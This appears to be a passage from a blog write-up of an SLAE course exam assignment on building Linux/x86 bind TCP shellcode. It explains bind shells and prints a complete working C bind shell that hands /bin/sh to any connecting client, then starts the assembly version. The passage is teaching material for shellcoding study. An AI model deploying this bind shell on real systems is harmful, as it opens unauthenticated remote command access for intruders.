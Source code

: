 # SLAE Exam Assignment 1 - Creating a Bind TCP shellcode

## Prologue
The first assignment for the SLAE certification exam is creating a Bind TCP shellcode for Linux/x86 architecture using the shellcoding knowledge that we have accumulated from the SLAE course and from our self-learning process.

So without any further ado, let's get down with it shall we?

## So what is Bind TCP anyway?
Let's take a look at a visual representation first and then we shall get down to the details.

![Bind TCP Overview](../assets/images/bind_tcp_overview.png "Bind TCP Overview")

As is illustrated by the image, the victim/target machine opens a port and listens or waits for an incoming connection request by the attacker who then connects to it. After a connection is established successfully between them, the target can now execute any abritary command as instructed by the attacker machine.

In other words, the victim is running the TCP server and the attacker is running the TCP client code.

An important point to remember is that this whole situation **reverses in a Reverse TCP shell.**

So how is this useful in the context of Information Security?

Honestly, bind shells are not that useful in a pen-testing scenario because for one firewalls have very strict inbound traffic filtering rules so inbound traffic from an unknown attacker's IP will probably be blocked and the shell won't be functioning. A Reverse TCP shell is what we use almost always in a pen-testing engagement as a workaround for this problem. You can find more information about this in the next blog post.

## A C Prototype first
If we are going to program in something as low-level as machine code it is only fair that we first create a prototype in a high-level language like C/C++ to conceptualize it and get a template for creating our assembly code right?

```c
// Filename: bind_tcp.cpp
// Author: Upayan a.k.a. slaeryan
// Purpose: This is a x86 Linux bind TCP shell written in C/C++ that inputs
// the C2 port from the console by the operator.
// Usage: ./bind_tcp 8080
// Compile with:
// g++ bind_tcp.cpp -o bind_tcp
// Testing: nc -v localhost 8080

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <stdlib.h>

//#define C2_PORT 8080

int main(int argc, char const *argv[]) 
{
    // Console C2 Port input from operator
    char* c2portstring = (char*)argv[1];
    int C2_PORT = atoi(c2portstring);
    // Declaring a sockaddr_in struct and an int var for socket file descriptor
    struct sockaddr_in server;
    int sockfd;
    // Initializing the sockaddr_in struct
    server.sin_family = AF_INET;           
    server.sin_addr.s_addr = INADDR_ANY;  
    server.sin_port = htons(C2_PORT);
    // 1st Syscall for creating the socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);        
    // 2nd Syscall for binding the socket
    bind(sockfd, (struct sockaddr *)&server, sizeof(server));
    // 3rd Syscall to listen for connections
    listen(sockfd, 0);
    // 4th Syscall to accept incoming connections
    int conn_sock = accept(sockfd, NULL, NULL);
    // 5rd Syscall for dup2()
    dup2(conn_sock, 0); // STDIN
    dup2(conn_sock, 1); // STDOUT
    dup2(conn_sock, 2); // STDERR
    // 6th Syscall for execve()
    execve("/bin/sh", 0, 0);
    return 0;
}
```

And here is a fully-functional C source for a bind shell payload. Stripping the C code down to it's essential details, we note the following syscalls to be made in our assembly code:

1. socket
1. bind
1. listen
1. accept
1. dup2
1. execve

Wonderful! Now let's get started with recreating the payload in ASM.

## Creating the Assembly program
### Clearing registers
The first set of instructions are almost always the same which is clearing the register sets we will be using in our program.

```nasm
; Clearing the first 4 registers for 1st Syscall - socket()
xor eax, eax       ; May also sub OR mul for zeroing out
xor ebx, ebx       ; Clearing out EBX 
xor ecx, ecx       ; Clearing out ECX
cdq                ; Clearing out EDX 
```

Note that we didn't use XOR'ing for clearing the EDX register instead we used `cdq` which actually copies the sign bit of EAX register into each bit position in EDX register essentially clearing it out. This saved us 3 bytes in the process ;)
### Socket syscall

